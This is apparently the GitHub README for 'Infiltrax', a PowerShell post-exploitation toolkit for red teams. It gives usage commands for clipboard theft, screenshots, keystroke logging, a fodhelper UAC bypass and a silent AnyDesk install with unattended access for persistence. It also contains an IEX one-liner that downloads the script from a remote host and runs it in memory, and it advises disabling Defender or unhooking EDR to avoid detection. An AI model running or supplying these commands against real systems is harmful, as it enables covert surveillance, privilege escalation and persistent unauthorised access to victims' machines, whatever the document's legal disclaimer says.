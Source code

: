 # Infiltrax
Infiltrax is a post-exploitation reconnaissance tool for penetration testers and red teams, designed to capture screenshots, retrieve clipboard contents, log keystrokes, bypass UAC and install AnyDesk for persistent remote access.

![Infiltrax](https://raw.githubusercontent.com/alexdhital/Infiltrax/main/usage.gif)

## Features

- **Screenshot Capture**: Take screenshots of the entire screen and save them as PNG files.
- **Clipboard Retrieval**: Access the current clipboard contents.
- **Keystroke Logging**: Record keystrokes for a specified duration.
- **UAC Bypass**: Bypasses UAC via fodhelper.exe
- **AnyDesk Installation**: Install and configure AnyDesk with unattended access.

## Usage
1. **Execute directly into memory**
```powershell
C:\Users\Administrator\Desktop> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/alexdhital/Infiltrax/main/Infiltrax.ps1')
```
2. **Get Clipboard contents**
```powershell
C:\Users\Administrator\Desktop> Invoke-Clipboard
```
3. **Take desktop screenshot and save into certain location**
```powershell
C:\Users\Administrator\Desktop> Invoke-Screenshot -Path "C:\Windows\Tasks\"
```
4. **Capture user keystrokes and save in a file**
```powershell
C:\Users\Administrator\Desktop> Invoke-KeyStrokeCapture -DurationInSeconds 30 -OutputPath C:\Users\Vlex\Desktop\keystrokes.txt
```
5. **Bypass UAC to run any program in elevated context. Default program powershell.exe**

    This function is taken from https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692 all credit goes to netbiosX :). Spawnning cmd.exe or powersell.exe from script gets caught by behavioural 
    detection disable defender or unhook EDR first.
```powershell
C:\Users\Vlex\Desktop> Invoke-FodHelperBypass -program "calc.exe"
```
6. **Installs anydesk silently, sets up unattended access and gets remote id** (Requires Administrative Privilege)
```powershell
C:\Users\Administrator\Desktop> Invoke-AnyDeskInstall -InstallPath "C:\Users\Alex\AppData\Local\AnyDesk" -Password "Unattended123!" 
```
## Warning and Legal Notice
This tool is intended solely for use by penetration testers and red team professionals during authorized engagements during post exploitation. Do not use this tool for unauthorized access or illegal activities.
